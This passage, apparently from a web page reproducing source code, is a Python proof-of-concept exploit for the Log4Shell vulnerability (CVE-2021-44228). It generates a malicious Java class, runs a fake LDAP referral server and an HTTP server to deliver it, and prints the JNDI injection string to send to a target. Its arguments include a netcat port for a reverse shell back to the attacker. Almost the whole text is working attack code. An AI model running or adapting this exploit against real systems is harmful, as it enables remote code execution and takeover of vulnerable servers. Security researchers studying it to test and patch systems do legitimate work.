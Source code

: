 		f = open("Exploit.java", "w")
		f.write(genExploit)
		f.close()
		print(Fore.GREEN + '[+] Exploit java class created success')

	except Exception as e:
		print(Fore.RED + f'[-] Something went wrong {e.toString()}')

	checkJavaAvailible()
	print(Fore.GREEN + '[+] Setting up fake LDAP server\n')

	# create the LDAP server on new thread
	t1 = threading.Thread(target=createLdapServer, args=(userip,webport))
	t1.start()

	# start the web server
	httpd = HTTPServer(('localhost', int(webport)), SimpleHTTPRequestHandler)
	httpd.serve_forever()

def checkJavaAvailible():
	javaver = subprocess.call(['./jdk1.8.0_20/bin/java', '-version'], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
	if(javaver != 0):
		print(Fore.RED + '[-] Java is not installed inside the repository ')
		sys.exit()

def createLdapServer(userip, lport):
	sendme = ("${jndi:ldap://%s:1389/a}") % (userip)
	print(Fore.GREEN +"[+] Send me: "+sendme+"\n")

	subprocess.run(["./jdk1.8.0_20/bin/javac", "Exploit.java"])

	url = "http://{}:{}/#Exploit".format(userip, lport)
	subprocess.run(["./jdk1.8.0_20/bin/java", "-cp",
	"target/marshalsec-0.0.3-SNAPSHOT-all.jar", "marshalsec.jndi.LDAPRefServer", url])

def header():
	print(Fore.BLUE+"""
	[!] CVE: CVE-2021-44228
	[!] Github repo:
	https://github.com/kozmer/log4j-shell-poc
	""")

if __name__ == "__main__":
	header()

	try:
		parser = argparse.ArgumentParser(description='please enter the values ')

		parser.add_argument('--userip', metavar='userip', type=str,
		nargs='+', help='Enter IP for LDAPRefServer & Shell')

		parser.add_argument('--webport', metavar='webport', type=str,
		nargs='+', help='listener port for HTTP port')

		parser.add_argument('--lport', metavar='lport', type=str,
		nargs='+', help='Netcat Port')

		args = parser.parse_args()

		payload(listToString(args.userip), listToString(args.webport), listToString(args.lport))

	except KeyboardInterrupt:
		print(Fore.RED + "user interupted the program.")
		sys.exit(0)

{% endhighlight %}
